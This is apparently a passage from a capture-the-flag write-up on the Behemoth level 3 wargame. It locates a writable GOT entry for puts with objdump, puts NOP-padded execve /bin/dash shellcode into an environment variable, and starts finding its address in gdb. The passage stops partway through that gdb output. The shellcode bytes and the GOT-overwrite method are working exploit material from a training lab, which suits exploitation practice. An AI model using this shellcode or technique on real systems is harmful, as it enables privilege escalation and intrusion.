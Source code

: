 ```
Now, it's going to be a tedious work as I'm doing that manually. First, I want to find an address that is going to be executed, so I can overwrite it. Then, I'm going to set a shellcode inside an environ, as we did on earlier levels. 

1. Finding an address: We can use the got which is the global offset table, where all the function are listed which are loaded into our program. Let's see if we can write into this addresses:
```
behemoth3@behemoth:/behemoth$ objdump -h behemoth3 | grep -A1 ' .\got'
 22 .got          00000004  08049794  08049794  00000794  2**2
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      0000001c  08049798  08049798  00000798  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```
Great, we don't see READONLY in .got, hence its writable. Now let's check our got addresses:

```
behemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049794 R_386_GLOB_DAT    __gmon_start__
080497c0 R_386_COPY        stdin@@GLIBC_2.0
080497a4 R_386_JUMP_SLOT   printf@GLIBC_2.0
080497a8 R_386_JUMP_SLOT   fgets@GLIBC_2.0
080497ac R_386_JUMP_SLOT   puts@GLIBC_2.0
080497b0 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```
We can use puts address as it's executed after printf. We can also use the function destrctors:
```
behemoth3@behemoth:/behemoth$ nm behemoth3 | grep 'DTOR'
```
Unfortunately we don't have anything, but sometimes it can be useful.
Okay, to the dirty job -> we are going to write byte after byte into our address, which is 0x080497ac. Let's plant our shellcode as environ:
```
 export EGG=$(python -c "print('\x90'*500+'\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43'+\x90'*500)")
```
This is the second shellcode I used, because the first one didn't work. You can find many in shellstorm. Anyway, the shellcode is padded with 500NOPS at the start and end of it.

Let's fire up gdb and get our shellcode's address (start and break in main). We first remove unnecessary environs from it, so we will have almost the identical stuck (so we won't have alignment issues):
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) x/50s *((char **) environ)
0xffffd4a0:	"LC_ALL=en_US.UTF-8"
0xffffd4b3:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
0xffffd57b:	"=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=0"...
0xffffd643:	"1;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.al"...
0xffffd70b:	"z=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;"...
